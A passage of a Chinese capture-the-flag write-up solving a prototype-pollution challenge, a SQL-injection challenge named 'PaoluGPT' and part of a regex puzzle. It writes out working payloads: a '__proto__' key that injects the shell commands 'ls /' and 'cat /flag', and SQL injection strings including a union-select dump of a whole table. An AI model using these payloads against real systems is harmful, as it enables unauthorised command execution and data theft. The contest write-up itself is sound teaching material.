 通过上面的代码，可以注入一个 `evil` 的属性到任意的对象中。所以我们只需要设置一次 `key`: `__proto__.evil`, `value`: `ls /`。然后访问 `/execute?cmd=evil`，不难发现有个 flag 文件。把 `value` 改为 `cat /flag`，再访问一遍就拿到 flag 了。

- `flag{n0_pr0topOIl_50_U5E_new_Map_1n5teAD_Of_0bject2kv_??????????}`

## PaoluGPT

又是一个 Web 题目。

### 窥视未知

先把题目下载下来，我们直接锁定 `main.py` 的 67 行！

```python
results = execute_query(f"select title, contents from messages where id = '{conversation_id}'")
```

很显然，我们可以注入 SQL 语句。试试 `/view?conversation_id=' or 1=1 --`，果然没问题。我们再看看源码，首页只显示 `shown = true` 的记录，所以我们看看 `shown = false` 的记录。访问 `/view?conversation_id=' or shown=false --`，拿到第二题的 flag！

等等，怎么又是第二题的先做完 🤪！

- `flag{enJ0y_y0uR_Sq1_&_1_would_xiaZHOU_hUI_guo_??????????}` （有 `&amp;` 记得要替换成 `&`）

### 千里挑一

那第一题怎么办？不知道，先把所有数据导出来看看再说！但 python 只把第一条数据取来了，我们可以通过 `union select` 构建出一个子查询，加上 `group_concat` 把所有内容合并成一条数据，一起导出来！

```sql
' union select title, group_concat(contents, ' ') as contents from messages --
```

拿到内容可以发现，除了刚刚的 flag，还有一条 flag 藏在众多的内容中。

- `flag{zU1_xiA0_de_11m_Pa0lule!!!_??????????}`

## 强大的正则表达式

数学题，我的天敌！不会做啊啊啊啊啊啊！

### Easy

通过 ChatGPT 可知，我们只需要关注最后四位数。

> 要在不使用四则运算和任何转换的情况下计算十进制数对 16 取模（即 mod 16），我们可以利用十进制数的性质来简化计算。具体来说，我们只需要关注十进制数的最后四位。这是因为 16 是 2 的 4 次方，所以一个十进制数的最后四位就足以确定其对 16 取模的结果。

所以只需要穷举出所有 4 位数，然后找到 16 的倍数即可。

```js
const arr = new Array(10000)
  .fill(0)
  .map((v, i) => i)
  .filter((v) => v % 16 === 0)
const grouped = Object.groupBy(arr, (v) => String(v).length)

let regex = '(0|1|2|3|4|5|6|7|8|9)*('
regex += grouped[2].map((v) => '00' + v).join('|')
regex += '|'
regex += grouped[3].map((v) => '0' + v).join('|')
regex += '|'
regex += grouped[4].join('|')
regex += ')'

console.log(regex)
```
